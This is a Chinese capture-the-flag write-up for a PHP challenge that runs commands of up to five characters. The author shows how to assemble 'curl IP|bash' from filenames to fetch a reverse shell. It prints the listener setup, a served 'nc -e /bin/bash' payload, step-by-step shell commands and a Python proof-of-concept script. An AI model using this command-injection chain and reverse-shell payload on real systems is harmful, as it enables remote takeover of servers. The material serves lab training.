

## 题目分析

```php
<?php
highlight_file(__FILE__);
error_reporting(E_ALL);

function filter($argv){
    $a = str_replace("/*|\?|/","====",$argv);
    return $a;
}

if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5){
    exec(filter($_GET['cmd']));
} else {
    echo "flag in local path flag file!"
}
```

## 预期指令与攻击流程

**预期指令：**

```shell
curl 192.168.1.161|bash
```

**攻击流程图：**




## 准备工作

**1. 开启监听端口**`nc -lvp 7777`


**2. 创建 index.html 文件**`echo "nc 192.168.1.161 7777 -e /bin/bash" > index.html`


**3. 开启 HTTP 服务监听 80 端口**`python -m http.server 80`


## 法一：手动构造

### 步骤一：构造 `ls -t>y` 并将其写入 `_` 文件

用到了`命令换行符`拼接指令+`重定向符号`追加覆盖写入

```shell
┌──(root㉿zigyr)-[~/test]
└─# >ls\\

┌──(root㉿zigyr)-[~/test]
└─# ls>_

┌──(root㉿zigyr)-[~/test]
└─# >\ \\

┌──(root㉿zigyr)-[~/test]
└─# >-t\\

┌──(root㉿zigyr)-[~/test]
└─# >\>y

┌──(root㉿zigyr)-[~/test]
└─# ls>>_

------
┌──(root㉿zigyr)-[~/test]
└─# ls
' \'  '-t\'  '>y'   _  'ls\'

┌──(root㉿zigyr)-[~/test]
└─# cat _
_
-> ls\
->  \
-> -t\
-> >y
_
ls\
------
```


### 步骤二：构造预期指令，并将其写入 `y` 文件

```shell
'>bash'
'>\|'
'>61\'
'>1\'
'>1.\'
'>8.\'
'>16\'
'>2.\'
'>19\'
'>\ \
'>rl\'
'>cu\'

'sh _'
```

### 步骤三：执行反弹shell

```shell
sh y
```


## 法二：POC脚本

```python
import time
import requests

baseurl = "http://192.168.1.61:18080/class09/3/index.php?cmd="

s = requests.session()

list = [
    '>ls\',
    'ls>_',
    '>\ \',
    '>-t\',
    '>\>y',
    'ls>>_'
]

list2 = [
    '>bash',
    '>\|\',
    '>61\',
    '>1\',
    '>1.\',
    '>8.\',
    '>16\',
    '>2.\',
    '>19\',
    '>\ \',
    '>rl\',
    '>cu\'
]

for i in list:
    time.sleep(1)
    url = baseurl + str(i)
    s.get(url)
    
for i in list2:
    time.sleep(2)
    url = baseurl + str(i)
    s.get(url)
    
s.get(baseurl + "sh _")
s.get(baseurl + "sh y")
```


## Q&A 

### Q：为什么 list 的构造（或者说 `ls -t>y` 的构造）看起来怪怪的？

**A：**

**目的：** 构造 `ls -t>y` 语句并将其写入 `_` 文件，利用重定向生成文件名的思路。

**前提：** 但是没有 `ls -t`。

**经过操作发现，按照字典序排列：**

```
' \'  '-t\'  '>y'  'ls\'
```

如果将 `'ls\'` 提前，那么就成了。